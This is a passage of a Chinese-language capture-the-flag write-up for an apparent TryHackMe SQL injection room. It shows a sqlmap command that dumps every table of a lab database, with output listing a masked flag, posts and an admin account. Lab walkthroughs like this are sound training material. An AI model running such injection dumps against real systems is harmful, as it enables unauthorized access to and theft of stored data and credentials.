 好了，现在又有一个新的数据库可用了

```
# sqlmap -u "http://10.10.X.X/post?id=2" -p "id" --risk=3 --level=3 -D sqhell_5 --dump-all --dbms=mysql --threads 10Database: **sqhell_5**
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
**| 1  | THM{FLAG5:B9C690D3B914F7038BA1FC6XXXXXXXXX} |** +----+---------------------------------------------+Database: **sqhell_5**
Table: posts
[1 entry]
+----+----------+-------------+----------+
| id | user_id  |   name      | content  |
+----+----------+-------------+----------+
**| 1  | 1        | First Post  | XXXXXXXX |
+----+----------+-------------+----------+
| 2  | 1        | Second Post | XXXXXXXX |**
+----+----------+-------------+----------+Database: **sqhell_5**
Table: users
[1 entry]
+----+----------+----------+
| id | username | password |
+----+----------+----------+
**| 1  | admin    | XXXXXXXX |**
+----+----------+----------+
```

找到旗子了，是第五面旗..😅第二面和第四面旗帜在哪里🤔。让我们看看博文的作者

![](img/dc1e479fbffe916c9a499ccc14332669.png)
